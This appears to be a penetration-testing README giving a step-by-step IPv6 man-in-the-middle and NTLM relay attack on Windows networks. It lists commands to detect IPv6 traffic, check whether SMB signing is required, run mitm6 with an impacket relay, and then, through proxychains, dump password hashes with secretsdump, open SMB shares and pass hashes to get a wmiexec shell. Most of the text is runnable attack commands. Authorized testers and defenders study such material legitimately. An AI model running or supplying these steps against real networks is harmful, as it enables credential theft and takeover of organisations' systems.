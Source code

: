 # IPV6

## Discovery

First check of IPv6 is being used on the network:

```bash
tshark -i interface -f "ip6" 
```
If packets are flowing then the next step is to check if SMB signing is not required.
To discover if SMB is enabled but not required, run (edit to match folder)

```bash
docker run -v "$(pwd)":/RESULTS berryliumsec/petusawo:latest \
check_if_smb_is_required IP_ADDRESS
```

## Exploitation

If SMB is not required then:

Setup mitm6 and ntlm relay
```bash
sudo ./start_nltm_relay_ipv6.sh target_doman target_or_target_files
```

The above command runs mitm6 and impacket relay in two screens, you can view the
running screens using:

```bash
screen -ls
```

Activate running screens with:

```bash
screen -r relay_ipv6
screen -r mitm6
```

Detach from a screen using

```bash
Ctrl + A (release before next key) + D
```

You can check if SMB sessions have been created successfully by resuming the `relay_ipv6`
screen and running the `socks` command

If SMB sessions have been created, you can perform a number of actions going forward using proxychains:

- Dumping ashes

    ```bash
    sudo proxychains impacket-secretsdump -no-pass DOMAIN/USER@X.X.X.X 
    ```
- Accessing SMB shares

    ```bash
    proxychains smbclient //10.8.0.99 -U DOMAIN/X.X.X.X     
    ```
- Passing hashes for a WMIexec session

```bash
impacket-wmiexec -hashes xxxxxxxxxxxxxxxxxxxxxx:xxxxxxxxxxxxxxxxxxx user@x.x.x.x
```
